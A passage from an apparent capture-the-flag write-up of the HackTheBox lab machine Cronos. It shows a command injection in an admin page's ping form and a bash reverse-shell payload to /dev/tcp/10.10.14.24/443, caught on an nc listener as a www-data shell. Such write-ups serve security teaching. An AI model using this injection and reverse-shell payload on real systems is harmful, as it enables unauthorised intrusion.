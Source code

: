 ```

POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: PHPSESSID=fvt6rfuuoh069o763u89rhphr1
Upgrade-Insecure-Requests: 1

command=ping+-c+1&host=10.10.14.24

```

It seems that the webserver is likely taking the command and the host and concatenating them together and then executing it. If that’s true, I can probably inject into either parameter. I’ll send that request over to repeater, and set the POST parameters to:

```

command=ls -l&host=/var/www

```

The response includes:

```

drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 admin<br>
drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 html<br>
drwxr-xr-x 13 www-data www-data 4096 Apr  9  2017 laravel<br>

```

### Shell

To turn that command injection into a shell, I’ll just give it a reverse shell payload:

```

command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=

```

And catch a shell on a `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:36196.
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$

```
